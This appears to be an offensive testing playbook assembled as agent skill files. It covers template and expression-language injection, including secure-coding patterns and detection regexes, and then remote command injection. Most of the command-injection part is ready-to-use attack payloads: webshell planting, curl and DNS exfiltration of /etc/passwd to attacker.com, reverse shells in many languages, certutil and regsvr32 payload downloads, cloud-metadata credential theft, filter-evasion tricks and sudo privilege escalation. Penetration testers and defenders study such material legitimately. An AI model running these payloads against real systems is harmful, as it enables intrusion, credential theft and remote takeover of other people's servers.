require('child_process').execSync('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/').toString()
```

### 6.4 Database Credential Extraction

**Jinja2 (Flask/SQLAlchemy):**
```
{{config['SQLALCHEMY_DATABASE_URI']}}
{{url_for.__globals__['app'].config['SQLALCHEMY_DATABASE_URI']}}
```

**PHP/Twig (Symfony/Doctrine):**
```
{{dump(app.request.server.all)}}
{{app.request.query.all}}
```

**Java/SpEL (Spring DataSource):**
```
${T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getAttribute('org.springframework.web.servlet.DispatcherServlet.CONTEXT',1).getBean('dataSource').getConnection().getMetaData().getURL()}
```

---

### 7.1 Secure Coding Patterns

**PHP - Avoid eval():**
```php
// VULNERABLE:
eval("\$result = \$user_input;");

// SECURE - Use strict parsing:
$result = filter_input(INPUT_GET, 'expr', FILTER_VALIDATE_INT);
if ($result === false) {
    throw new InvalidArgumentException("Invalid input");
}

// SECURE - Use allowlist mapping:
$allowed_operations = [
    'add' => fn($a, $b) => $a + $b,
    'sub' => fn($a, $b) => $a - $b
];
$op = $_GET['op'];
if (!isset($allowed_operations[$op])) {
    throw new InvalidArgumentException("Invalid operation");
}
$result = $allowed_operations[$op]($a, $b);
```

**Python - Avoid eval()/exec():**
```python

# SECURE - Use ast.literal_eval for literals only:
import ast
result = ast.literal_eval(user_input)  # Only parses literals

# SECURE - Use safe eval libraries:
from simpleeval import simple_eval
result = simple_eval(user_input)

# BEST - Never evaluate user input; use parsers:
import json
result = json.loads(user_input)  # Strict JSON parsing
```

**Node.js - Avoid vm with user input:**
```javascript
// VULNERABLE:
vm.runInContext(user_input, context);

// SECURE - Use JSON.parse for data:
const data = JSON.parse(user_input);

// SECURE - Use jailed VMs with timeouts:
const vm = require('vm');
const sandbox = {};
vm.createContext(sandbox);
vm.runInContext('result = 7*7', sandbox, { timeout: 1000 });
```

**Ruby - Avoid eval():**
```ruby

# SECURE - Use safe evaluation with $SAFE:
$SAFE = 1  # Restrict dangerous operations
```

**Java - Avoid ScriptEngine with user input:**
```java
// VULNERABLE:
ScriptEngine engine = new ScriptEngineManager().getEngineByName("nashorn");
engine.eval(userInput);

// SECURE - Use expression parsers with allowlists:
// Use Spring Expression Parser with custom EvaluationContext
// that restricts type references and method calls
StandardEvaluationContext context = new StandardEvaluationContext();
context.setTypeLocator(typeName -> {
    throw new SpelEvaluationException("Type access denied");
});
```

# SECURE - Use sandboxed environment:
from jinja2.sandbox import SandboxedEnvironment
env = SandboxedEnvironment()
template = env.from_string(user_input)
result = template.render()

# SECURE - Disable dangerous globals:
env = Environment()
env.globals.clear()  # Remove all globals
env.filters.clear()  # Remove all filters
```

**Twig - Sandboxing:**
```php
// VULNERABLE:
$loader = new \Twig\Loader\ArrayLoader(['template' => $user_input]);
$twig = new \Twig\Environment($loader);
echo $twig->render('template');

// SECURE - Use sandbox extension:
$policy = new \Twig\Sandbox\SecurityPolicy(
    ['if', 'for'],           // Allowed tags
    ['escape', 'upper'],     // Allowed filters
    [],                      // Allowed methods
    [],                      // Allowed properties
    []                       // Allowed functions
);
$sandbox = new \Twig\Extension\SandboxExtension($policy);
$twig->addExtension($sandbox);
```

**Freemarker - Secure Configuration:**
```java
// VULNERABLE:
Configuration cfg = new Configuration();
Template t = new Template("name", new StringReader(userInput), cfg);
t.process(data, out);

// SECURE - Disable dangerous built-ins:
cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
// Or completely disable:
cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);
```

**Velocity - Secure Configuration:**
```java
// VULNERABLE:
Velocity.evaluate(context, writer, "template", userInput);

// SECURE - Disable class loading:
context.put("class", null);
context.put("runtime", null);
// Or use SecureUberspector
```

### 7.3 Expression Language Security

**Spring SpEL - Secure Evaluation:**
```java
// VULNERABLE:
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression(userInput);
Object value = exp.getValue();

// SECURE - Use SimpleEvaluationContext:
EvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
Object value = exp.getValue(context);

// SECURE - Disable type references:
StandardEvaluationContext context = new StandardEvaluationContext();
context.setTypeLocator(typeName -> {
    throw new SpelEvaluationException("Type access denied");
});
```

**OGNL - Secure Configuration (Struts):**
```xml
<!-- struts.xml -->
<constant name="struts.enable.OGNLExpressionCache" value="true"/>
<constant name="struts.allowStaticMethodAccess" value="false"/>
<constant name="struts.excludedClasses" value="java.lang.Runtime,java.lang.ProcessBuilder"/>
<constant name="struts.excludedPackageNames" value="java.lang.reflect"/>
```

**Unified EL - Secure Configuration:**
```java
// Disable method expressions in JSF:
// web.xml
<context-param>
    <param-name>javax.faces.ENABLE_CDI_RESOLVER_CHAIN</param-name>
    <param-value>false</param-value>
</context-param>

// Use ELResolvers that restrict method invocations
```

### 7.4 Architecture-Level Mitigations

1. **Never evaluate user input:** Treat all user input as data, never as code
2. **Use static analysis:** Deploy Semgrep, CodeQL, SonarQube rules for dangerous functions
3. **Language-specific hardening:**
   - PHP: `disable_functions = eval, assert, create_function, preg_replace`
   - Python: Avoid `eval()`, `exec()`, `pickle.loads()` with untrusted data
   - Node.js: Avoid `vm` module with user input; use `vm2` with strict sandboxing
   - Java: Disable `ScriptEngine`, restrict `ELProcessor`, use `SimpleEvaluationContext`
4. **Template engine hardening:**
   - Enable sandbox modes
   - Disable `new` built-ins (Freemarker)
   - Restrict allowed tags/filters/methods (Twig, Jinja2)
   - Use auto-escaping by default
5. **WAF Rules:** Deploy rules for common SSTI/EL patterns (`{{`, `${`, `#{`, `<%=`)
6. **Content Security:** Implement strict Content-Type headers to prevent template injection via file uploads

### 7.5 Verification Checklist

- [ ] No `eval()`, `exec()`, `system()`, or equivalent functions process user input
- [ ] Template engines run in sandbox mode with restricted globals/filters/methods
- [ ] Expression languages use restricted evaluation contexts (no type references, no method invocations)
- [ ] Auto-escaping is enabled in all template engines
- [ ] User input is never passed to `unserialize()`, `pickle.loads()`, `yaml.load()`
- [ ] `ScriptEngine.eval()` is not used with user-controlled strings
- [ ] WAF rules detect common SSTI/EL injection patterns
- [ ] Error messages do not reveal template engine or expression language type
- [ ] File upload functionality does not allow template file extensions (`.twig`, `.vm`, `.ftl`, `.erb`)
- [ ] Deserialization endpoints use signed/encrypted payloads or allowlisted classes

---

### Jinja2
```
{{7*7}}
{{7*'7'}}
{{config}}
{{''.__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['popen']('id').read()}}
{{url_for.__globals__['os'].popen('id').read()}}
{{request.application.__globals__['__builtins__']['__import__']('os').popen('id').read()}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbases\x5f\x5f')|first|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
```

### Twig
```
{{7*7}}
{{dump(app)}}
{{['id']|filter('system')}}
{{['id']|map('system')|join}}
{{_self.env.registerUndefinedFilterCallback('system')}}
```

### Freemarker
```
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
<#assign ex="freemarker.template.utility.ObjectConstructor"?new()>${ex("java.lang.ProcessBuilder","id").start()}
```

### Velocity
```
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("id"))
#set($out=$ex.getInputStream())
#foreach($i in [1..50])#if($out.available()>0)$out.read()#else#break#end#end
```

### Razor
```
@System.Diagnostics.Process.Start("cmd","/c whoami")
@System.IO.File.ReadAllText("/etc/passwd")
```

### SpEL
```
${T(java.lang.Runtime).getRuntime().exec('id')}
${new java.lang.ProcessBuilder('id').start()}
${T(javax.script.ScriptEngineManager).newInstance().getEngineByName('nashorn').eval('java.lang.Runtime.getRuntime().exec("id")')}
```

### OGNL
```
${@java.lang.Runtime@getRuntime().exec('id')}
${new java.lang.ProcessBuilder('id').start()}
${#cmd='id',#rt=@java.lang.Runtime@getRuntime(),#rt.exec(#cmd)}
```

### Unified EL
```
${facesContext.getExternalContext().getResponse().getWriter().println('test')}
${''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('id')}
```

### Python eval()/exec()
```
__import__('os').system('id')
__import__('os').popen('id').read()
().__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['popen']('id').read()
```

### Node.js vm
```
require('child_process').execSync('id').toString()
this.constructor.constructor('return process')().mainModule.require('child_process').execSync('id')
```

## Appendix B: Common Vulnerable Patterns

| Function/Framework | Vulnerable Pattern | Secure Alternative |
|---|---|---|
| PHP `eval()` | `eval("\$result = $user_input;")` | Strict parsing with `filter_input()` |
| PHP `assert()` | `assert($user_input)` | Remove assert with user input entirely |
| Python `eval()` | `eval(user_input)` | `ast.literal_eval()` or JSON parsing |
| Python `exec()` | `exec(user_input)` | Pre-defined function mapping |
| Node.js `vm.runInContext()` | `vm.runInContext(input, ctx)` | `JSON.parse()` or jailed vm with timeout |
| Node.js `eval()` | `eval(user_input)` | Strict JSON parsing |
| Ruby `eval()` | `eval(user_input)` | `JSON.parse()` |
| Java `ScriptEngine.eval()` | `engine.eval(user_input)` | Restricted `SimpleEvaluationContext` |
| Jinja2 | `Template(user_input).render()` | `SandboxedEnvironment` |
| Twig | `twig.render(user_input)` | `SandboxExtension` with `SecurityPolicy` |
| Freemarker | `Template(user_input)` | `TemplateClassResolver.SAFER_RESOLVER` |
| Velocity | `Velocity.evaluate(ctx, out, "", input)` | Restricted context, no class loading |
| SpEL | `parser.parseExpression(input).getValue()` | `SimpleEvaluationContext` |
| OGNL | `Ognl.getValue(input, ctx, root)` | Disable static method access, type blocking |
| Unified EL | `elContext.getELResolver().getValue(...)` | Restricted ELResolver |

---

## Appendix C: SSTI Decision Tree

```
Input reflected in template?
├── {{7*7}} returns 49?
│   ├── {{7*'7'}} returns 7777777? → Jinja2
│   ├── {{7*'7'}} returns 49? → Twig
│   ├── {{dump(app)}} works? → Symfony/Twig
│   └── {{config}} works? → Flask/Jinja2
├── ${7*7} returns 49?
│   ├── ${T(java.lang.Math).random()} works? → SpEL
│   ├── ${@java.lang.Runtime@getRuntime()} works? → OGNL
│   └── ${facesContext...} works? → Unified EL
├── <%= 7*7 %> returns 49? → ERB/Ruby
├── @{7*7} returns 49? → Razor
├── <#assign x=7*7>${x} returns 49? → Freemarker
├── #set($x=7*7)$x returns 49? → Velocity
├── {$smarty.version} works? → Smarty
└── {{7*7}} returns nothing/syntax error?
    ├── Try ${7*7}, #{7*7}, *{7*7}
    └── Check error messages for engine names
```

---

## Appendix D: Tools & Automation

**Manual Testing Tools:**
- Burp Suite (Intruder with SSTI/EL payload lists)
- OWASP ZAP (Fuzzer with template injection payloads)
- Tplmap (Automated SSTI detection and exploitation)
- Commix (For stacked query code injection)
- JNDI-Injection-Exploit (For Java expression chains)

**Payload Lists:**
- SecLists: `SSTI-Jinja2.txt`, `SSTI-Twig.txt`, `SSTI-Generic.txt`
- PayloadsAllTheThings: SSTI, Code Injection, Expression Language sections
- FuzzDB: Template injection vectors, EL injection vectors

**Detection Regex Patterns:**
```
SSTI Detection:
\{\{.*\}\}          # Jinja2/Twig/Handlebars
\$\{.*\}            # SpEL/OGNL/EL
\#\{.*\}            # JSF/SpEL alternative
\<\%.*\%\>          # ERB/JSP
\$\!?\{.*\}         # Velocity
\<\@.*\>\$          # Freemarker

Code Injection Detection:
eval\s*\(.*\$.*\)   # PHP eval with variables
exec\s*\(.*input    # Python exec
vm\.runInContext    # Node.js vm
```

**Exploitation Frameworks:**
- ysoserial (Java deserialization to code execution)
- pickle-payloads (Python deserialization)
- PHPGGC (PHP deserialization gadget chains)


#### Additional source: C:\Users\nashr\AppData\Local\Temp\opencode\src_rce.md
name: remote-command-injection
description: Comprehensive remote command injection testing methodology covering direct shell metacharacter injection, blind time-delay/DNS exfiltration/OOB exploitation, advanced filter evasion techniques, and optimized payload delivery for Unix and Windows targets.
version: 1.0.0
---

# Remote Command Injection Testing Skill

## Overview

Remote Command Injection (also known as OS Command Injection or Shell Injection) occurs when an application passes unsanitized user input to a system shell or command execution function. Attackers inject shell metacharacters to execute arbitrary operating system commands with the privileges of the vulnerable application.

**Execution Contexts:**
- **Direct Execution:** `system()`, `exec()`, `passthru()`, `popen()`, `subprocess.call()`, `os.system()`, `Runtime.getRuntime().exec()`
- **Indirect Execution:** Backtick operators, shell evaluation in configuration files, pipeline processing, log rotation utilities
- **Shell Environments:** `/bin/sh`, `/bin/bash`, `cmd.exe`, `powershell.exe`

**Platform Considerations:**
- **Unix/Linux:** `$IFS`, `${IFS}`, brace expansion, wildcard abuse, `/dev/tcp/` for reverse shells
- **Windows:** `^` escape character, `%OS%` variable abuse, `for /F` loops, `certutil` for downloads
- **Cross-Platform:** Python, Perl, Ruby, Node.js one-liners for payload consistency

---

## Phase 1: Detection & Fingerprinting

### 1.1 Initial Reconnaissance

Identify potential injection points:
- URL parameters, query strings, path variables
- HTTP headers (`User-Agent`, `Referer`, `X-Forwarded-For`, custom headers)
- Cookie values and JWT claims
- File upload filenames and metadata fields
- JSON/XML body parameters in REST/GraphQL APIs
- WebSocket message payloads
- Email subjects/bodies in mail processing endpoints
- DNS hostname parameters in network diagnostic tools
- Filename parameters in file operations (view, delete, copy)

### 1.2 Fingerprinting the Execution Environment

**Determine OS Type:**
```
Linux/Unix probes:
; cat /etc/os-release
; uname -a
; id
; echo $SHELL
; ps -p $$

Windows probes:
; ver
; whoami
; echo %OS%
; cd
; dir
```

**Determine Command Execution Method:**
- Synchronous vs. asynchronous execution
- Output reflected in response vs. blind
- Error message verbosity (stack traces revealing `system()`, `exec()`, etc.)

### 1.3 Basic Detection Payloads

**Standard Metacharacter Tests:**
```
;
|
||
&
&&
`
$()
```

**Echo-Based Confirmation (Reflected):**
```
; echo "CMD_INJ_TEST"
| echo "CMD_INJ_TEST"
&& echo "CMD_INJ_TEST"
`echo "CMD_INJ_TEST"`
$(echo "CMD_INJ_TEST")
```

**Mathematical Confirmation:**
```
; expr 1336 + 1          # Should yield 1337
; echo $((1336+1))       # Bash arithmetic
; python3 -c "print(1336+1)"
```

**Time-Based Confirmation (Blind):**
```
; sleep 5
| sleep 5
`sleep 5`
$(sleep 5)
```

---

## Phase 2: Direct Command Injection

### 2.1 Shell Metacharacter Injection

**Command Separators (Execute multiple commands):**
```
;          # Semicolon - executes sequentially
&          # Background execution (Unix)
|          # Pipe output to next command
||         # OR - executes second if first fails
&&         # AND - executes second if first succeeds
\n         # Newline separator in some contexts
```

**Command Substitution (Embed command output):**
```
`command`              # Backtick substitution
$(command)             # Modern POSIX substitution
$((command))           # Arithmetic expansion context
${command}             # Parameter expansion abuse
```

**Payload Examples:**
```
; cat /etc/passwd
| cat /etc/passwd
`cat /etc/passwd`
$(cat /etc/passwd)
; whoami; uname -a; id
```

### 2.2 Output Redirection & File Operations

**Read Operations:**
```
; cat /etc/passwd
; head -n 50 /etc/passwd
; tail -n 50 /var/log/apache2/access.log
; less /etc/shadow
; sort /etc/passwd
; uniq /etc/passwd
; strings /bin/bash | head
; xxd /etc/passwd | head
; od -c /etc/passwd | head
; base64 /etc/passwd
; uuencode /etc/passwd out.txt
```

**Write Operations (Webshell planting):**
```
; echo "<?php system($_GET['cmd']); ?>" > /var/www/html/shell.php
; printf '<?php system($_GET[cmd]); ?>' > /tmp/shell.php
; cat > /var/www/html/shell.jsp << 'EOF'
<%@ page import="java.io.*" %>
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
EOF
```

**Redirection Operators:**
```
>          # Overwrite
>>         # Append
<          # Input redirection
<<         # Here-document
<<<        # Here-string (bash)
2>&1       # Redirect stderr to stdout
&>         # Redirect both stdout and stderr
```

### 2.3 Command Substitution Nesting

**Deep Nesting for Complex Extraction:**
```
$(cat $(ls /etc/*.conf | head -1))
$(grep -i $(echo "password") $(find /etc -name "*.conf"))
`cat \`find /etc -name "passwd"\``
$(bash -c "$(curl -s http://attacker.com/payload.sh)")
```

**Nested Arithmetic for Encoding:**
```
$((echo $((1336+1))))
$(printf '%s' $(echo "d2hvYW1p" | base64 -d))
```

### 2.4 Chained Command Execution

**Information Extraction Chains:**
```
; uname -a; id; pwd; ls -la; cat /etc/passwd; netstat -an
; env; set; export
; ps auxww; cat /proc/self/environ
; crontab -l; cat /etc/crontab
; cat /etc/hosts; cat /etc/resolv.conf
```

**Privilege Enumeration Chains:**
```
; sudo -l 2>/dev/null; find / -perm -4000 2>/dev/null
; getcap -r / 2>/dev/null
; cat /etc/sudoers 2>/dev/null
; groups; id -Gn
```

---

## Phase 3: Blind Command Injection

### 3.1 Time-Delay Based Detection

**Unix/Linux Time Delays:**
```
; sleep 5
; sleep 5s
; sleep 0.5m
`sleep 5`
$(sleep 5)
; /bin/sleep 5
; timeout 5 sleep 5
; ping -c 5 127.0.0.1
; ping -i 5 -c 2 127.0.0.1
; tail -f /dev/null & sleep 5; kill %1
; python3 -c "import time; time.sleep(5)"
; ruby -e "sleep 5"
; php -r "sleep(5);"
; node -e "setTimeout(()=>{}, 5000)"
```

**Windows Time Delays:**
```
; timeout /t 5 /nobreak
; ping -n 5 127.0.0.1
; choice /c YN /t 5 /d Y
; waitfor /t 5 signalname 2>nul
; powershell -command "Start-Sleep -s 5"
```

**Conditional Time Delays:**
```
; [ -f /etc/passwd ] && sleep 5
; grep -q "root" /etc/passwd && sleep 5
; id | grep -q "uid=0" && sleep 5
; test -r /etc/shadow && sleep 5 || echo no
```

### 3.2 DNS Exfiltration (Out-of-Band)

**Unix/Linux DNS Exfiltration:**
```
; nslookup $(whoami).attacker.com
; curl http://attacker.com/$(whoami)
; wget http://attacker.com/$(whoami)
; host $(whoami).attacker.com
; dig $(whoami).attacker.com
; ping $(whoami).attacker.com
; nc -vz attacker.com 53

# Data encoding for DNS:
; nslookup $(cat /etc/passwd | base64 | tr -d '\n' | cut -c1-63).attacker.com
; for i in $(cat /etc/passwd | base64 | fold -w 63); do nslookup $i.attacker.com; done
```

**Windows DNS Exfiltration:**
```
; nslookup %USERNAME%.attacker.com
; powershell -command "(Invoke-WebRequest -Uri 'http://attacker.com/$env:USERNAME').Content"
; certutil -urlcache -split -f http://attacker.com/%USERNAME%
; bitsadmin /transfer n http://attacker.com/%USERNAME% C:\windows\temp\out
```

**Automated Exfiltration Scripts:**
```
; bash -c 'while IFS= read -r line; do encoded=$(echo "$line" | base64 | tr -d "\n"); curl "http://attacker.com/?d=$encoded"; done < /etc/passwd'
; python3 -c "
import base64, urllib.request
with open('/etc/passwd') as f:
    data = base64.b64encode(f.read().encode()).decode()
    urllib.request.urlopen('http://attacker.com/?d=' + data)
"
```

### 3.3 Out-of-Band Callbacks & Reverse Shells

**Reverse Shell - Bash:**
```
; bash -i >& /dev/tcp/attacker.com/4444 0>&1
; bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'
; /bin/bash -l > /dev/tcp/attacker.com/4444 0<&1 2>&1
```

**Reverse Shell - Netcat:**
```
; nc -e /bin/sh attacker.com 4444
; nc -e /bin/bash attacker.com 4444
; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker.com 4444 > /tmp/f
; rm -f /tmp/bkpipe; mknod /tmp/bkpipe p; /bin/sh 0</tmp/bkpipe | nc attacker.com 4444 1>/tmp/bkpipe
```

**Reverse Shell - Python:**
```
; python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

**Reverse Shell - Perl:**
```
; perl -e 'use Socket;$i="attacker.com";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Reverse Shell - PHP:**
```
; php -r '$sock=fsockopen("attacker.com",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
; php -r '$sock=fsockopen("attacker.com",4444);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Reverse Shell - Ruby:**
```
; ruby -rsocket -e'f=TCPSocket.open("attacker.com",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

**Reverse Shell - Node.js:**
```
; node -e 'var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(4444,"attacker.com",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});'
```

**Reverse Shell - PowerShell:**
```
; powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacker.com",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

**Reverse Shell - Java:**
```
; Runtime r = Runtime.getRuntime();
; Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/attacker.com/4444;cat <&5 | while read line; do $line 2>&5 >&5; done'");
```

### 3.4 File-Based Blind Exfiltration

**Write to Web-Accessible Path:**
```
; id > /var/www/html/output.txt
; cat /etc/passwd > /var/www/html/passwd.txt
; whoami > /tmp/result.txt
```

**Write to Predictable Temp Files:**
```
; cat /etc/passwd > /tmp/out_$(date +%s).txt
; env > /dev/shm/env_dump.txt
```

---

## Phase 4: Filter Evasion & Bypass Techniques

### 4.1 Encoding Bypasses

**URL Encoding:**
```
%3B        # ;
%7C        # |
%26        # &
%26%26     # &&
%7C%7C     # ||
%60        # `
%24%28     # $(
%3E        # >
%3C        # <
```

**Double URL Encoding:**
```
%253B      # Double-encoded ;
%257C      # Double-encoded |
%2526      # Double-encoded &
%2560      # Double-encoded `
```

**Unicode/UTF-8 Encoding:**
```
%u003B     # Unicode semicolon
%u007C     # Unicode pipe
%C0%A0     # Overlong encoding of space (legacy systems)
%C0%BC     # Overlong encoding of <
%C0%BE     # Overlong encoding of >
```

**HTML Entity Encoding:**
```
&#59;      # ;
&#124;     # |
&#38;      # &
&#96;      # `
```

**Hex Encoding:**
```
\x3b       # ;
\x7c       # |
\x26       # &
\x60       # `
```

**Octal Encoding:**
```
\073       # ;
\174       # |
\046       # &
\140       # `
```

### 4.2 Whitespace Alternatives

**Unix/Linux Whitespace Bypass:**
```
${IFS}                    # Internal Field Separator
$IFS$9                    # IFS with non-existent variable
${IFS}$9                  # Combined
$IFS                      # Bare IFS variable
\t                        # Tab character
\x09                      # Hex tab
\x0b                      # Vertical tab
\x0c                      # Form feed

# Redirection as whitespace:
cat</etc/passwd          # No space needed
{cat,/etc/passwd}        # Brace expansion
X=$'cat\x09/etc/passwd';eval$X
```

**Windows Whitespace Bypass:**
```
%PROGRAMFILES:~10,1%     # Expands to space (variable substring)
%COMSPEC:~4,1%           # Expands to space
%TEMP:~3,1%              # Expands to space
%PATH:~0,1%              # May expand to space
```

**Tab vs Space Substitution:**
```
;cat%09/etc/passwd
;cat$IFS/etc/passwd
;cat${IFS}/etc/passwd
```

### 4.3 Brace Expansion

**Unix Brace Expansion (Bash):**
```
{cat,/etc/passwd}
{ls,-la,/tmp}
{cp,/etc/passwd,/tmp/passwd.bak}
{mv,/tmp/shell.php,/var/www/html/}
{chmod,+x,/tmp/exploit}
{wget,http://attacker.com/payload.sh,-O,/tmp/payload.sh}
{curl,-s,http://attacker.com/payload.sh}
```

**Nested Brace Expansion:**
```
{echo,{1336,1}|{tr,,' '}|{bc,}}    # Complex arithmetic
{cat,{/etc/passwd,/etc/shadow}}
```

### 4.4 Wildcard Abuse

**Globbing for Path Traversal:**
```
/???/??t                  # Matches /etc/cat, /bin/cat, etc.
/???/p??s??               # Matches /etc/passwd
/???/??a??                # Matches /etc/shadow
/???/s???                 # Matches /bin/sh, /bin/ssh
/???/n?                   # Matches /bin/nc, /usr/bin/nl
/???/c?t                  # Matches /bin/cat, /usr/bin/cut
/???/l??s                 # Matches /bin/less, /bin/ls
/???/b??h                 # Matches /bin/bash
/???/p??g                 # Matches /bin/ping
/???/w??t                 # Matches /usr/bin/wget
/???/c??l                 # Matches /usr/bin/curl
/???/n?????               # Matches /usr/bin/netcat
/???/p??????              # Matches /usr/bin/python3
/???/p?????3              # Matches /usr/bin/python3
```

**Wildcard in Commands:**
```
cat /etc/p??s??           # cat /etc/passwd
cat /etc/*wd              # cat /etc/passwd, /etc/group, etc.
cat /etc/pas*             # cat /etc/passwd, /etc/passwd-
```

**Character Class Abuse:**
```
/???/c[a]t                # /bin/cat
/???/p[a-z]s[s-z]         # /etc/passwd
/???/b[a-z][a-z]h         # /bin/bash
```

### 4.5 Character Substitution & Obfuscation

**Case Variation (Windows):**
```
WhOaMi
WhOaMi.EXe
cMd.ExE /c WhOaMi
PoWeRsHeLl -CoMmAnD WhOaMi
```

**Slash Substitution (Windows):**
```
whoami
whoami.exe
\windows\system32\whoami.exe
c:\windows\system32\whoami.exe
c:/windows/system32/whoami.exe
```

**Quote Injection:**
```
w"h"o"a"m"i
w'h'o'a'm'i
w\ho\ami
w`h`o`a`m`i
```

**Variable Interpolation (Unix):**
```
$u=$(echo "whoami"); $$u
u=n; c$a$t /etc/passwd    # Where $a is empty
u=whoami; ${u}             # Variable substitution
```

**Windows Variable Abuse:**
```
%OS%                       # Windows_NT
%SYSTEMROOT%               # C:\Windows
%WINDIR%                   # C:\Windows
%TEMP%                     # Temp directory
%PUBLIC%                   # C:\Users\Public
%COMSPEC%                  # C:\Windows\system32\cmd.exe
```

### 4.6 Alternative Command Execution Methods

**Unix/Linux Alternatives:**
```
awk 'BEGIN {system("whoami")}'
sed '1e whoami' /etc/passwd
find / -name foo -exec whoami \;
find / -name foo -exec whoami {} +
perl -e 'system("whoami")'
ruby -e 'system("whoami")'
python3 -c 'import os; os.system("whoami")'
php -r 'system("whoami");'
lua -e 'os.execute("whoami")'
expect -c 'spawn whoami; interact'
tclsh -c 'exec whoami'
ssh localhost whoami
mail -s test root < /dev/null && whoami
xargs -I {} whoami
timeout 1 whoami
stdbuf -oL whoami
nice whoami
nohup whoami
env whoami
```

**Windows Alternatives:**
```
cmd /c whoami
cmd /k whoami
powershell -command whoami
powershell -encodedcommand <base64>
wscript C:\temp\payload.vbs
cscript C:\temp\payload.vbs
mshta javascript:alert("test");close();
certutil -urlcache -split -f http://attacker.com/payload payload.exe
bitsadmin /transfer n http://attacker.com/payload C:\temp\payload
regsvr32 /s /n /u /i:http://attacker.com/payload.sct scrobj.dll
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write("test");window.close();
forfiles /p C:\Windows /m notepad.exe /c "cmd /c whoami"
```

### 4.7 Blacklist Bypass Techniques

**Space Filter Bypass:**
```
cat</etc/passwd
cat$IFS/etc/passwd
cat${IFS}/etc/passwd
X=$'cat\x09/etc/passwd';eval$X
{cat,/etc/passwd}
```

**Slash Filter Bypass:**
```
cd ..; cd etc; cat passwd
cat $(echo -e "\x2fetc\x2fpasswd")
cat $(printf '\x2fetc\x2fpasswd')
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

**Command Name Filter Bypass:**
```
w\ho\ami
'w'ho'ami'
"w"h"o"a"m"i
w"h"oami
who$()ami                  # If $() is evaluated but command inside fails
who$((1-1))ami             # Arithmetic expansion to empty string
who$(echo)ami              # Echo produces empty string
```

**Keyword Filter Bypass (e.g., "cat" blocked):**
```
tac /etc/passwd            # Reverse cat
nl /etc/passwd             # Numbered lines
less /etc/passwd
more /etc/passwd
head -100 /etc/passwd
tail -100 /etc/passwd
od -c /etc/passwd
xxd /etc/passwd
hexdump -C /etc/passwd
base64 /etc/passwd
strings /etc/passwd
grep '' /etc/passwd
awk '{print}' /etc/passwd
sed '' /etc/passwd
sort /etc/passwd
uniq /etc/passwd
rev /etc/passwd | rev      # Double reverse = cat
paste /etc/passwd
```

**"etc" Filter Bypass:**
```
cat /?tc/passwd
cat /e[c]/passwd
cat /et[c]/passwd
cat /etc/p??s??
cat $(echo /etc/passwd)
cat $(printf '/etc/passwd')
```

---

## Phase 5: Advanced Exploitation

### 5.1 Command Chaining for Data Exfiltration

**Multi-Stage Extraction:**
```
; for file in $(find /etc -name "*.conf" 2>/dev/null); do echo "=== $file ==="; cat "$file"; done
; tar czf - /etc | base64 | fold -w 64
; zip -r - /var/www/html | base64
; mysqldump -u root -p'password' database | gzip | base64
```

**Database Extraction via Command Injection:**
```
; mysql -u root -e "SHOW DATABASES;" 2>/dev/null
; mysql -u root -e "SELECT * FROM mysql.user;" 2>/dev/null
; psql -U postgres -c "\l" 2>/dev/null
; sqlite3 /var/www/html/db.sqlite ".dump" 2>/dev/null
; mongo --eval "db.adminCommand('listDatabases')" 2>/dev/null
```

### 5.2 Privilege Escalation via Command Injection

**Sudo Abuse:**
```
; sudo -l
; sudo /bin/bash
; sudo su -
; sudo -u#-1 /bin/bash    # CVE-2019-14287 (uid -1 = root)
```

**SUID Binary Exploitation:**
```
; find / -perm -4000 2>/dev/null
; find / -perm -u=s -type f 2>/dev/null
; getcap -r / 2>/dev/null
```

**Writable Path Abuse:**
```
; echo $PATH
; ls -la $(echo $PATH | tr ':' ' ')
; find / -writable -type d 2>/dev/null | grep -E "(bin|sbin)"
```

